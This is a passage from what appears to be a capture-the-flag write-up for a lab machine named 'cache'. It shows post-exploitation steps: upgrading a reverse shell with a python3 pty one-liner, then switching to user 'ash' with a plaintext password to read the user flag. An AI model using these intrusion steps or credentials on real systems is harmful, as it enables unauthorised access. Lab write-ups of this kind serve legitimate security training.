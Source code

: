 ![revshell.png](images/revshell.png)

We have a shell !

Python is not install to get a terminal shell, but python3 is usable :
~~~
www-data@cache:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

Now, we can su Ash as we already have his creds to escalate and read the user.txt file:
~~~
www-data@cache:/$ su ash
su ash
Password: H@v3_fun
~~~
![usertxt.png](images/usertxt.png)

